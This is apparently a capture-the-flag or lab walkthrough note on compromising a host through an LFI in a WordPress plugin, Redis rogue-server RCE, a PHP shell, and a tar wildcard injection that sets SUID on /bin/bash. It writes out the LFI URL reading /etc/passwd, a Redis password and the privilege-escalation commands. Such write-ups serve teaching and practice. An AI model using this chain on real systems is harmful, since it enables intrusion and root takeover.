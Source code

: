 ### ++ Approach 192.168.205.166 ++
#### Credentials
	* root
    * alice
    * no username:Ready4Redis? (Redis)

#### Services
	##### 22 SSH
		- 

	##### 80 Http
		Wordpress 5.7.2
            Plugin Site Editor 1.1.1 - LFI Exploitable

	##### 6379 Redis
		Need credentials
        With LFI we can read redis config file /etc/redis/redis.conf
        Access with: 
            redis-cli -h 192.168.205.166
            AUTH Ready4Redis?
        With redis-rogue-server (https://github.com/n0b0dyCN/redis-rogue-server) we can get RCE
            Try placing php file in wordpress folder

### ++ Vulnerabilities ++

#### Vuln 1: LFI in Wordpress Plugin Site Editor 1.1.1 ++
	Exploit: https://www.exploit-db.com/exploits/44340 
    http://192.168.205.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

### ++ System Interaction ++
#### Foothold as redis
	* With LFI we can get redis credentials (in /etc/redis/redis.conf file) and redis server version is 5.0.14 (we can see this with redis-cli, command 'info'), so we can use redis-rogue-server to get a shell: https://github.com/n0b0dyCN/redis-rogue-server

#### Lateral movement as alice 
    * With redis we check writable folders (find / -writable -type d 2>/dev/null). We try to place a php shell in tmp folder but it doesn't get executed, then we tried in /run/redis and it works perfectly so we get RCE as alice through LFI vulnerability

#### Privilege Escalation 
	* We found a cronjob for user root which is launching the script /usr/local/bin/backup.sh.
        Content:
            #!/bin/bash
            cd /var/www/html
            if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
            tar -cf /opt/backups/website.tar *
            fi
        Explanation: Check for files modified in the last 3 minutes and create a file called website.tar with all the content if something was modified
        Exploitation: Tar wildcard (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
            In /var/www/html:
                echo -e '#/!bin/bash\nchmod +s /bin/bash' > shell.sh
                echo "" > "--checkpoint-action=exec=sh shell.sh"
                echo "" > "--checkpoint=1"
            Wait for the script to be executed and then:
                /bin/bash -p (Execute binary as owner, which is root)